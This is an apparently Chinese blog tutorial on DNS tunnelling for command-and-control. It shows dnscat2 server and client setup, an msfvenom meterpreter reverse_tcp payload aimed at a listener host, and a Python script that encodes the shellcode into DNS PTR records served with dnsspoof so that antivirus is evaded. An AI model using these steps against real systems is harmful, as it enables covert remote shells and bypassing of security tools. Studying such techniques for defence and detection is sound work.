```yaml
---
title: 基于常规DNS隧道通信利用
date: 2019-07-01 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。

---
```


## DNS Tunnel可以分为直连和中继两种。

直连就是用目标机器直接和指定的目标DNS Server进行UDPsocket套接字连接，这种方式速度快，但致命的弱点就是直接将IP暴露在流量中，且如果客户端指定了信任的DNS解析服务器，那么将会被白名单限制在外。

中继是通过DNS迭代查询实现的中继隧道，生存能力强，隐蔽性更高，但同时因为数据包到达目标DNS Server前需要经过多个节点，所以速度上慢很多。

中继过程中的一个关键点是对DNS缓存机制的规避，因为如果解析的域名在Local DNS 中已经有缓存时，Local DNS 就不会继续发送数据包。所以在构造请求中，每次查询的域名需要不同或者是已过期的。

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx1.png)

# DNSCAT2

DNSCAT2用于通过DNS协议创建恶意软件的命令和控制通道（C＆C）。它由用Ruby编写的服务器和用C编写的客户端组成。

一开始，需要设置一个NS记录指向自己的子域名，再设置一个A记录指向自己部署server端的服务器地址。如下图的设置：

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx2.png)

解析配置完成后，在服务端nc监听下udp的53端口，再回到windows机器ping下ns域名,如果收到回显,证明解析成功。

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx3.png)

接下来，在server端开启隧道：

ruby./dnscat2.rb dnscat.[domain] –no-cache
[domain]是刚设置的ns记录的子域名，–no-cache代表不进行缓存

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx4.png)

我们以相同的方式启动客户端，并看到会话已经建立。

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx5.png)

回到服务端使用shell进行命令控制:

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx6.png)

在客户端抓取流量包可以看到Dnscat2 主要进行了TXT,CNAME,MX查询。

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx7.png)

并且dnscat2客户端没有直接向我的C2服务器发送DNS查询，相反，受害者的系统正在与标准可信DNS服务器进行通信并转发至该域的权威DNS服务器，

正如下捕获的数据包, 受害者的本地DNS服务器正在尝试解析“dnscat.[domain].cn”域中的主机名，

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx8.png)

# NativePayload_DNS

NativePayload_DNS 是利用DNS隧道来传输shellcode，在内存中执行，进行分离免杀，躲避杀软的静态检测。

项目地址
https://github.com/DamonMohammadbagher/NativePayload_DNS

这里对C#脚本使用csc.exe进行编译可执行文件exe：
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out: Dnsbceon.exe NativePayload_DNS.cs

实现原理：
查看c#源代码，具体分以下三步来实现分离式免杀执行shellcode，通过循环遍历请求DNS中的PTR记录，将返回的域名进行拼接提取,最终调用kernel32申请内存执行shellcode。

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/xx9.png)

首先使用MSF生成shellcode,如下:

```
Msfvenom --platform windows --arch x64 -p windows/x64/met
erpreter/reverse_tcp lhost=10.10.11.134 lport=4444 -f c > /root/payload.txt
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d4413156d67ff04fe362070)

然后将 shellcode 制作成 IP+地址的格式
Ipaddress “{payload}.domain.com”
1.1.1.0 “0xfc0x480x830xe40xf00xe8.1.com”
1.1.1.1 “0xbc0xc80x130xff0x100x08.1.com”
……

这里使用python进行格式化，结果如下:

```
#! /usr/bin/env python2.7
# -*- coding:UTF-8 -*-
a = ''
f = open("payload.txt", "rb")
line = f.readlines()[0:]
f.close()
for lines in range(len(line)):
    ipls = '1.1.1.%s' % lines
    shellcode = line[lines].replace(";","").strip().rstrip('"')+".1.com"+'"'
    text = ipls + " " + '"'+ "0x"+shellcode.lstrip('"')
    a += text.replace("\\","0")+"\n"
fn = open("dns.txt", "wb")
fn.write(a)
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d44138f90144e1859abbf23)

在Kali上 使用dnsspoof 创建DNS服务器，并在MSF进行监听
dnsspoof -i eth0 -f dns.txt

![img](https://www.yunzhijia.com/microblog/filesvr/5d4413fe28011f3c5371f1bb)

通过nslookup查询可以查询到对应的shellcode

![img](https://www.yunzhijia.com/microblog/filesvr/5d44140128011f3c5371f1be)

windows执行编译好的文件，由于使用DNS反向解析，速度相对来说较慢，
经过漫长的等待成功弹回meterpreter。

![img](https://www.yunzhijia.com/microblog/filesvr/5d44144332f2ca7e75d544bf)
